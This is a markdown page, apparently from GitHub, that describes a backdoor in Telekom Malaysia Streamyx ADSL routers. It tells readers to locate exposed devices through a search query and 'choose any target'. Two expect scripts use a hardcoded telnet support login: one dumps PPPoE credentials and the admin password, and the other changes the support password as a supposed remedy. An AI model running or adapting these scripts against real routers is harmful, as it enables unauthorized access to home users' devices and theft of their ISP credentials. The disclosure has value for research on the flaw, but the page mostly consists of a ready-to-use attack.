 # Telekom Malaysia Streamyx Backdoor
Search for "Virtual Web 0.9 country:MY"

![Image 1](http://i.imgur.com/XxD5y1v.png "Image 1")

Choose any target and execute the script below

```Bash
#!/usr/bin/expect

set timeout 20
set ip [lindex $argv 0]
spawn telnet $ip 23
expect "Username: "
send "support\n"
expect "Password: "
send "\$upp0rtS\n"
expect "$"
send "sh\n"
expect "ADSL#"
send "login show\n"
expect "ADSL#"
send "pppoe show\n"
expect "ADSL#"
```

Here is the sample output:

![Image 2](http://i.imgur.com/zT4hWFy.png "Image 2")

and that's it. You got the PPPOE credentials and also the administrator password for the login page.

Note: the user creation mechanism seems to be blocking any attempt to create a user with name other than tmXXXX. Also the delete function seems to be not working either. So we cannot delete the support account but we can change the password.

![Image 3](http://i.imgur.com/2qA1FOV.png "Image 3")

Nope!

![Image 4](http://i.imgur.com/QJGzq1k.png "Image 4")

and nope!

So here is the remedy. Execute the script below:

```Bash
#!/usr/bin/expect

set timeout 20
set ip [lindex $argv 0]
set pass [lindex $argv 1]
spawn telnet $ip 23
expect "Username: "
send "support\n"
expect "Password: "
send "\$upp0rtS\n"
expect "$"
send "sh\n"
expect "ADSL#"
send "configuration\n"
expect "ADSL(config)#"
send "passwithprio support $pass root\n"
expect "ADSL(config)#"
```
